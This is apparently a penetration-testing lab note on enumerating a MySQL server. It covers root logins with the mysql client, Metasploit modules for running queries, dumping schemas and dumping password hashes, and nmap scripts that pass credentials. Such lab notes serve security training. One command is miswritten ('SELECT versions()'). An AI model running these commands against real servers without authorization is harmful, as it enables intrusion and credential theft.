




MySQL
MySQL
Enumeration Using Client
You will want to have MySQL installed on your system to connect to the remote MySQL server. In case this isn't already installed, you can install it using sudo apt install default-mysql-client
To Login without Password:
mysql -h 10.10.213.240 -u root
To Login with Password:
mysql -h 10.10.213.240 -u root -p
Essential Navigation Commands:
SELECT versions()
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the currentdatabase.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
Enumerating Using Metasploit
auxiliary/admin/mysql/mysql_sql

We can try other commands in the SQL option.
Schema Dump
auxiliary/scanner/mysql/mysql_schemadump

Once we run it, it outputs the schema of all the databases.

Hashdump
auxiliary/scanner/mysql/mysql_hashdump

Alternative Enumeration
As with the previous task, it's worth noting that everything we will be doing using Metasploit can also be done either manually or with a set of non-Metasploit tools such as nmap's mysql-enum script: https://nmap.org/nsedoc/scripts/mysql-enum.html or https://www.exploit-db.com/exploits/23081. I recommend that after you complete this room, you go back and attempt it manually to make sure you understand the process that is being used to display the information you acquire.
Version
nmap --script=mysql-info.nse 10.10.213.240

Databases (Using Script Args)
nmap --script=mysql-databases.nse --script-args 'mysqluser=root,mysqlpass="password"' 10.10.213.240

Running SQL Queries
nmap -p 3306 10.10.213.240 --script mysql-query --script-args='query="select version()",username=root,password=password'